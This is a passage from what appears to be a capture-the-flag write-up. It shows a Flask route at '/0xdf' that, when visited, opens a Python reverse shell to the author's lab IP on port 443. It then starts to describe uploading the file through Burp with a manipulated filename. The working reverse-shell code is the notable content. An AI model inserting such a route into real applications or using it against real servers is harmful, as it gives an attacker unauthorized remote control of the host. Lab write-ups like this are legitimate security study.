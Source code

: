 

    @app.route('/0xdf')
    def rev():
        import socket
        import os
        import pty
        
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.14.6",443))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        pty.spawn("sh")



On visiting `/0xdf`, it will generate a reverse shell to me.

#### Upload

I'll set Burp to intercept, and upload this file. I'll verify the new
route is there, and modify the `filename` to abuse the same trick I used
earlier to read:

[![](/img/image-20220930081422279.png)*Click
for full size
